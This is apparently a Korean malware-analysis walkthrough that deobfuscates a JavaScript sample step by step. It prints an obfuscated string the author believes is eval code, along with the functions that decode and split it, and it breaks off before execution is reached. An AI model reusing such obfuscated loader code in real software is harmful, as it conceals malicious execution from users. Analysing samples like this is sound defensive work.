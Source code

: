 ```javascript
function NW87() {
    FQ96[xj34] = EO49[FQ96[qN252]];
}
NW87();
nb5();
```

하지만 여전히 코드는 형체를 알아 볼 수 없다.

function EO49(Fg50)를 들여다 보자

```javascript
function EO49(Fg50) {
     = 'fir/opc\\r\'Stu+W.m] s.5{lp5 ehD)epj1p\'[\\(-4+2=8\"2\\a=2?Z)2e+)2h\\0\'h) /t;,/l \":\\}xp@ et\"e\\tel+hgs4\\b\'4eu Y n,y{i\\+\'= \"T\\S\"E\\y@G+4\"\\\\\'y3((Y fn4=Oe4 xp,Seo yd.f4n6a3i8l..rsr3Wee4 )py{;lSy a(rWc(tre  8(f;6\\i\".) @s0;\\e\"t3n+x+dye0(YT7)4e,;4s2 +n(}\\o\"c]p@a\\s\"t\\e\"crr,ht.\\(\"6se\\8\")br){uW; s  r\\=\"ev [ta3)ur4(r ygnfSn S if8rra5atl vSs= oe {t;S . y))}40( 30mi.2ofr d e=n(p=aWl=rra .8csh6eut.(tas/aMt(\' (\\4\\W=fd( ]{24-254[}6Y9)QyF/}  g;;1,-)2 +\\2\'3foPfu=T2n3TocfH t;L)i)M2o3Xonfr( (e](\"v\"S+r\"dte\"9+S\"7\".+)\"2r \"L+{\"M\" +X\"rqS\"e+M\"t\"\\+\'\"us(\"r+t\"n\"c[ hetSajMt b{r O)i e9n0t6g2a9.0e5f1r r<C o2.3motfC(p heilairhrwc C;S6o W=d  2e3=o(f ;p)6(ae8srorlsCW.e) eIu{rnt  t,)2(93ASO (de<l9i F7t5x,e5T1eDt0aje)r(C+. 231eQ0Cl;))i(;thi uwQ}. t)p;i;r0c S WF =)Q) 2995A6O5([sDt3sji]x E(e;lfi]FS.\\2\"18QmC5(o )fci(;.\")pom;td. 7-6W1d9S2n1cvaHr\\-\\i\"e+p)b2t-.4.(w]Q\"wru\"w+i\"\\e\"dtl,o(\"\\+\"\")Fel;ad\" +.\"}ijc \"4+}\"oe p.Setw\"l+w\"sewGe\"\\[\"2 1,Q{C\\=\"2 9lAWOp;S).\"ctdcrecjiblOpm-ettms.yeSsejlliaFe.ngenyiptwp(i.r2ctS2\"s(2tec2etj2b.O)ewt;awe rwC}.\\t\"p i[rjc SDW= 5=  5241+Q8C+;a\';\'Z=}r\'e)p)b(ufnox3I2l)y;qtrcogtmcaucr=tFsQn9o6c;';
    qN252 = Fg50;
    SK92 = "";
}
```

뭔가 eval 코드로 추청되는 문자열을 AP9826에 담았다.

AP9826을 사용하는 부분을 추적 해 보면,

```javascript
ew84=fW4(AP9826,qN252);
```

fW4라는 함수에 AP9826과 qN252를 넣어 호출한다.

즉 , eval 코드를 난독화한 문자열(AP9826)를 FW4함수를 통해 *deobfuscate 데이터를* ew84에 담는다.



```javascript
function VX30() {
    FQ96 = kZ37("sp\l\it", **ew84**, Li29);
}
```

아직 ew84를 실행하지 않는 것을 보니, *deobfuscate*가 덜 끝났나보다.

즉 , eval 코드를 난독화한 문자열(AP9826)를 FW4함수를 통해 *deobfuscate 데이터를* ew84에 담는다.

ew84를 **실행**해야 하기 때문에 **ew84를 호출하는 부분**을 찾으면 된다.

다행히(?) ew84는 바로 다음 라인에서 바로 호출된다.

